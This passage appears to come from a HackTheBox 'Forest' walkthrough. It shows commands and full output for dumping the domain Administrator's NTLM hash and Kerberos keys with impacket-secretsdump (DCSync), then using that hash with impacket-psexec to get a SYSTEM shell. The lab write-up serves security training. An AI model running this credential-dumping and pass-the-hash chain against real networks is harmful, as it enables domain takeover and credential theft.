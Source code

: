 ```
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20221203-212806.restore
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!


```


### 2.6.1. DC secretdumping -
```
┌──(kali㉿kali)-[~]
└─$ impacket-secretsdump forest.htb/scriptkiddie:scriptkiddie@10.10.10.161 -just-dc-user administrator
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
[*] Cleaning up... 
                         
```


Root with psexec.py
```
┌──(kali㉿kali)-[~]
└─$ impacket-psexec forest.htb/administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file RykCEJQe.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service BDRH on 10.10.10.161.....
[*] Starting service BDRH.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> 

```
